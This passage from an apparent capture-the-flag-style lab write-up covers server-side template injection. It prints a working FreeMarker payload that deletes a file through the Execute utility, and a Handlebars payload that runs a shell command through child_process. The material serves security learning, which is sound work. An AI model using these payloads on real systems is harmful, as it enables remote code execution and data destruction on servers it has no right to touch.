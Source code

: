 ![Pasted_image_20250126172204](https://github.com/user-attachments/assets/2dc8d32e-30a0-49e6-adfc-7cbf797e92da)

with `ls` I see that there is `morale.txt` there, so I modify the command to `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p><#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the file is deleted and the lab is solved.

-------

### Lab.4 Server-Side Template Injection in an Unknown Language with a documented Exploit

**Description**

The goal of the lab is to identify the template engine and find a documented exploit online, then execute code and delete the `morale.txt` file from Carlos's home directory.

**Solution**

When I visit the page, and click on the first article to see the details, I see there a message saying `Unfortunately this product is out of stock`. So, let's try to see if this message is vulnerable.

I sent the request for the message: `GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2` to Intruder and add there a list of test payloads, to see the responses.

After I execute a Sniper Attack, I see the responses, and some of them like `{{7*7}}` have produced errors, and when I see the response, it tells that it uses `handlebars`.

So, I have identified the template engine.

![Pasted_image_20250126175817](https://github.com/user-attachments/assets/0a0a0a83-eddd-40b9-8a79-c54b1e946986)

Now, I will search for some existing `handlebars` payloads. I found one of them on `Hacktricks`:

```JS
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
